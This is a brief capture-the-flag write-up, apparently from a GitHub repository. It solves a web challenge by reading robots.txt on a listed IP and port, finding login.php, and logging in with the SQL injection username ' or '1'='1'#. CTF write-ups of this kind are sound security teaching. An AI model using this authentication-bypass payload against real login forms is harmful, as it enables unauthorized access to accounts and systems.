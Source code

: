 **This challenge was quite fascinating for me :)**

Steps to solve this challenge:
  1. Checking _robots.txt_ file of `188.40.189.2:8004` and the result is like this:
```
    User-agent: *
    Disallow: 
    /css/
    /fonts/
    /images/
    /js/
    /vendor/
    /login.php
```
  2. So we go to `login.php` and try to use **SQLi** to login
  3. I logged in with:
```
Username: ' or '1'='1'#
Password: admin
```
  4. Done :)
